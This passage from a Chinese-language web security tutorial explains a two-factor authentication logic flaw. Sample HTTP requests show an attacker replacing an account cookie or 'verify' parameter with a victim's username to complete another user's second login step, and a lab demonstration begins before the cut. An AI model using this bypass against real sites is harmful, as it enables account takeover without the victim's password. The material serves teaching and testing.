 ### 逻辑缺陷

在一些情况下我们可能会遇到在用户完成初始登录步骤后，网站无法充分验证同一用户是否正在完成第二步，例如：用户在第一步中使用其正常凭据登录

```bash
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

在进入登录过程的第二步之前他们将被分配一个与其帐户相关的 cookie

```bash
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```

提交验证码时请求使用此 cookie 来确定用户试图访问的帐户

```bash
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

在这种情况下攻击者可以使用自己的凭据登录，但在提交验证码时会将帐户 cookie 的值更改为任意用户名，如果攻击者能够强行使用验证码，这将是极其危险的，因为这将允许他们完全基于用户名登录任意用户的帐户，他们甚至不需要知道用户的密码

```bash
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

下面我们通过一个示例进行演示说明：  
首先登录自己的账户熟悉 2FA 的验证过程，可以看到"POST /login2"请求中的 verify 参数用于确定正在访问哪个用户的帐户  
[![](assets/1705979483-c07aa4315495ce0992384464881a308b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121192801-22e9d674-b850-1.png)  
随后我们将上述请求发送到 repeat 模块并将 verify 参数更改为 carlos 后发送请求，发现可以为 Carlos 生成临时 2FA 代码  